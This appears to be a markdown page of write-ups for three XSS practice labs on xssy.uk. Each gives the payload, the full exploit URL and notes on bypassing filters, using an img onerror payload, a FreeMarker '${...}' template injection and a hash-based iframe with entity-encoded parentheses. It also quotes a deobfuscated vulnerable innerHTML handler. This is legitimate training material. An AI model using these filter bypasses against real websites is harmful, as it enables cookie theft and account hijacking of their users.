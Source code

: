 
### Lab 736: Referer Check
- **URL Lab**: https://xssy.uk/lab/736
- **Payload**: 
```html
<img src=x onerror="alert(document.cookie)">
```
- **Full URL**: 
```
https://m3ult5ii.xssy.uk/target.ftl?name=%3Cimg+src%3Dx+onerror%3D%22alert%28document.cookie%29%22%3E
```
- **Description**: Switch parameter name from body to URL request

---

### Lab 882: Template
- **URL Lab**: https://xssy.uk/lab/882
- **Payload**: 
```
${alert(document.cookie)}
```
- **Full URL**: 
```
https://uxookccd.xssy.uk/target.ftl?name=${alert(document.cookie)}
```
- **Description**: First tested `<i>dimana` and the character `<` was filtered. Based on title, used template to trigger XSS. FreeMarker template uses syntax `${...}` for expression.

---

### Lab 1068: Shallow Obscurity [Code in Script Was Obfuscated]
- **URL Lab**: https://xssy.uk/lab/1068
- **Payload**: 
```html
#<iframe src=javascript:alert&lpar;document.cookie&rpar;>
```
- **Full URL**: 
```
https://fku2gvhv.xssy.uk/#%3Ciframe%20src=javascript:alert&lpar;document.cookie&rpar;%3E
```
- **Description**: Used ChatGPT to deobfuscate code:
```javascript
window.addEventListener('hashchange', function() { 
    var input = window.location.hash.slice(1); // Ambil setelah # 
    var decoded = decodeURIComponent(input); // Filter XSS sederhana 
    decoded = decoded.replace(/[()]/g, ''); // Hapus tanda kurung 
    decoded = decoded.replace(/onerror/gi, ''); // Hapus "onerror" 
    // VULNERABLE! Output langsung ke innerHTML 
    document.getElementById('output').innerHTML = 'huh!: ' + decoded; 
});
```

---